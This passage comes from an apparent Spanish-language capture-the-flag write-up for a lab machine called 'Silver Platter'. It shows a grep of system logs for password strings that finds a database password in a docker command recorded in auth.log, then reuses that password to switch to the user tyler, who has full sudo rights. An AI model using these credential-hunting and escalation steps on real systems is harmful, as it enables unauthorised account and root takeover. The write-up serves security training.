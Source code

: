 ```
/var/log/installer/curtin-install/subiquity-curthooks.conf
/var/log/installer/curtin-install/subiquity-initial.conf
/var/log/installer/curtin-install/subiquity-extract.conf
/var/log/installer/curtin-install/subiquity-partitioning.conf
/var/log/installer/subiquity-server-info.log.2061
/var/log/installer/autoinstall-user-data
/var/log/installer/subiquity-client-debug.log.2016
/var/log/installer/installer-journal.txt
/var/log/installer/cloud-init.log
/var/log/installer/subiquity-curtin-apt.conf
/var/log/nginx
/var/log/nginx/access.log
/var/log/nginx/error.log.1
/var/log/nginx/access.log.2.gz
/var/log/nginx/access.log.1
/var/log/nginx/error.log
/var/log/cloud-init.log
/var/log/dmesg.1.gz
/var/log/syslog
/var/log/auth.log
/var/log/kern.log.3.gz
/var/log/cloud-init-output.log
/var/log/auth.log.2.gz
/var/log/auth.log.2
/var/spool/rsyslog
/etc/cloud/ds-identify.cfg
/etc/cloud/clean.d/99-installer
/etc/cloud/cloud.cfg.d/99-installer.cfg
/etc/hosts
/etc/hostname
tim@silver-platter:~$
```

Con la ayuda de la herramienta grep, buscamos entre todos los ficheros con palabras claves como "*pass*" y "*pwd*", donde logramos enumerar las credenciales de **PostgreSQL**:
```
tim@silver-platter:/var/log$ grep -ri tyler --colour | grep -iE "pass|pwd" --colour
............<SNIP>................
auth.log.2:Dec 13 15:41:17 silver-platter sudo:    tyler : TTY=tty1 ; PWD=/ ; USER=root ; COMMAND=/usr/bin/docker exec -it postgresql psql -U postgres
auth.log.2:Dec 13 15:44:30 silver-platter sudo:    tyler : TTY=tty1 ; PWD=/ ; USER=root ; COMMAND=/usr/bin/docker run --name silverpeas -p 8080:8000 -d -e DB_NAME=Silverpeas -e DB_USER=silverpeas -e DB_PASSWORD=************** -v silverpeas-log:/opt/silverpeas/log -v silverpeas-data:/opt/silvepeas/data --link postgresql:database sivlerpeas:silverpeas-6.3.1
............<SNIP>................

```

Probamos la contraseña sobre el usuario *Tyler*, logramos acceder con su cuenta, utilizamos el comando *sudo -l* y vemos que tenemos permisos elevados "*(ALL : ALL) ALL*", esto nos permite obtener una shell como root utilizando **SUDO**:
```
tim@silver-platter:/var/log$ su tyler
Password: 
tyler@silver-platter:/var/log$ sudo -l
[sudo] password for tyler: 
Matching Defaults entries for tyler on silver-platter:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User tyler may run the following commands on silver-platter:
    (ALL : ALL) ALL
```
